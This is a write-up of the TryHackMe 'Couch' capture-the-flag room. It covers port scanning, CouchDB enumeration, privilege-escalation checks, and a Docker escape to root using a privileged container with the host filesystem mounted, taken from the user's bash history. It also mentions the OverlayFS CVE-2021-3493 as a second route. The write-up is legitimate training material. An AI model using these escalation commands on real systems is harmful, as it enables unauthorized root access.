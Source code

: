# Couch - TryHackMe Challenge

Hatami Ra'is Bukhari (Althemier)
[Challenge link](https://tryhackme.com/room/couch)

## Scanning

Nmap scan
```bash
nmap -sC -sV -oN nmap/result.txt $IP

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:9d:39:09:34:30:4b:3d:a7:1e:df:eb:a3:b0:e5:aa (RSA)
|   256 a4:2e:ef:3a:84:5d:21:1b:b9:d4:26:13:a5:2d:df:19 (ECDSA)
|_  256 e1:6d:4d:fd:c8:00:8e:86:c2:13:2d:c7:ad:85:13:9c (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

For some reason the scan only show 1 port, even with tag `-A`, so lets try the other method which is `Rustscan`[[1]](https://github.com/RustScan/RustScan)

```bash
Open 10.10.75.191:22
Open 10.10.75.191:5984
```

Much better. `22` is SSH, then what is `5984`? Quick googling, it's for `CouchDB`.

Access `CouchDB` with typing this into your browser: [[2]](https://cloud.ibm.com/docs/Cloudant?topic=Cloudant-access-couchdb-cluster)
```
http://10.10.172.141:5984
```

Or with curl
```bash
curl 10.10.172.141:5984
```

Both method will give you respon where you get the version of the `CouchDB` as well as the machine OS

> What is path for the web administration tool for this database management system?

> What is path for list all databases in the web browser of the database management system?

You can get the answer with some googling, *explore the world*

Once you find out how to do web administrator `CouchDB`, you can find the credential to `SSH` to the machine

## Where is my flag

`user.txt` contain the first flag.

Escalate privileges however... its fun

You can do the casual check priv-esc like:
- `sudo -l`, you get the information that you dont have sudo privileges
- Eploring SUID with `find / -perm -4000 2>/dev/null` also found nothing
- Running `Linpeas` [[3]](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) aslo found nothing.

So, I found 2 method on how to priv esc ro root

### Docker

If you check the user home directory, there is a file called `.bash_history`. This file contain the information of history command type in terminal. So lets see what we have here
```bash
sudo -s
cd /etc/apt/
rm sources.
rm sources.list
.
.
.
.
.
.
docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
uname -a
exit
```

Docker command, huh. Lets try it
```bash
docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine

/ #
```

Huh, we can access this container

Lets see what we have here, maybe we can find this `root.txt` with `find` [[4]](https://tryhackme.com/room/thefindcommand)
```bash
find / -type f -name root.txt
#Find any file start from root directory where the name is root.txt
#Once found, you can open it without permision needed.
cat /???/????/????.txt
```

### Kernel Exploited

Although the method above may have been the intended way, but why dont try other method

If we recall to we try to access `CouchDB` to browser we have the info that the OS run the database is Ubuntu version 16.04

There is one room in TryHackMe [[5]](https://tryhackme.com/room/overlayfs) explaining about CVE-2021-3493 [[6]](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-3493).

TLDR, on some version of Ubuntu which the one we have right now has vulnerability on OverlayFS which allow local users to get root access. The user only need to compile a scripts and run it to gain instant root, pretty cool right?

You can pause what you currently doing and complete Overlayfs room [[5]](https://tryhackme.com/room/overlayfs) or read and apply what `Overlayfs` has to offer, once finish with `Couch` you can complete `Overlayfs`


